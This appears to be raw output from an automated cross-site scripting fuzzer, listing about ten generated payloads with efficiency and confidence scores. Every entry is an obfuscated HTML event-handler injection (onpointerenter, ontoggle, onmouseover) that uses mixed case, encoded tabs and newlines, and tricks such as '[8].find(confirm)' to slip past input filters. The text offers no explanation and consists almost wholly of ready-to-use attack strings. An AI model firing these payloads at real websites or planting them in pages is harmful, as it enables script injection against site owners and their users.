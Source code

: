 ------------------------------------------------------------
 Payload: <A%0aonpoInTeRenteR+=+confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 510/1536
 
------------------------------------------------------------
 Payload: <DETails%0donTOGgLe%0a=%0a(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 511/1536
 
------------------------------------------------------------
 Payload: <dETaILS%09oNpOinterentER%09=%09[8].find(confirm)%0dx// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 512/1536
 
 Progress: 513/1536
 
------------------------------------------------------------
 Payload: <hTML/+/onpoiNTereNTEr%09=%09[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 514/1536
 
------------------------------------------------------------
 Payload: <d3V%0aONmOuseOVER+=+(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 515/1536
 
------------------------------------------------------------
 Payload: <HtML/+/oNPoINTEReNTeR%0d=%0d(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 516/1536
 
------------------------------------------------------------
 Payload: <detAiLS%0dONpoinTERENtER%0d=%0d[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 517/1536
 
------------------------------------------------------------
 Payload: <a%09ONMoUSEOveR%09=%09a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 518/1536
 
------------------------------------------------------------
 Payload: <d3v/+/oNMouseovEr%09=%09(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 519/1536
 